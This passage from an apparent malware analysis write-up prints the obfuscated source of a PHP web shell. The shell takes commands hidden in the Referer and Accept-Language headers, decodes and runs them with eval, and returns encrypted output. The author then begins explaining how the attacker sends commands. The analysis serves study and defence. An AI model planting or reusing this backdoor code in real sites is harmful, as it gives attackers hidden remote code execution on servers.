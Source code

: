 ```php
            $u = parse_url($rr);
            parse_str($u["query"], $q);
            $q = array_values($q);
            preg_match_all("/([\\w])[\\w-]+(?:;q=0.([\\d]))?,?/", $ra, $m);
            if ($q && $m) {
                @session_start();
                $s = &$_SESSION;
                $ss = "substr";
                $sl = "strtolower";
                $i = $m[1][0] . $m[1][1];
                $h = $sl($ss(md5($i . $kh), 0, 3));
                $f = $sl($ss(md5($i . $kf), 0, 3));
                $p = "";
                for ($z = 1; $z < count($m[1]); $z++) $p .= $q[$m[2][$z]];
                if (strpos($p, $h) === 0) {
                    $s[$i] = "";
                    $p = $ss($p, 3);
                }
                if (array_key_exists($i, $s)) {
                    $s[$i] .= $p;
                    $e = strpos($s[$i], $f);
                    if ($e) {
                        $k = $kh . $kf;
                        ob_start();
                        @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), $ss($s[$i], 0, $e))), $k)));
                        $o = ob_get_contents();
                        ob_end_clean();
                        $d = base64_encode(x(gzcompress($o), $k));
                        print("<$k>$d</$k>");
                        @session_destroy();
                    }
                }
            }
        }
    }
```

The thing that I looked for are:

1. How the attacker sends his commands?
2. How they're executed?
3. How the attacker gets the outputs?

### How the attacker sends the commands?

At the begging we can see:

```php
    $r = $_SERVER;
    $rr = @$r["HTTP_REFERER"];
    $ra = @$r["HTTP_ACCEPT_LANGUAGE"];
    if ($rr && $ra) {
        ...
    }
```
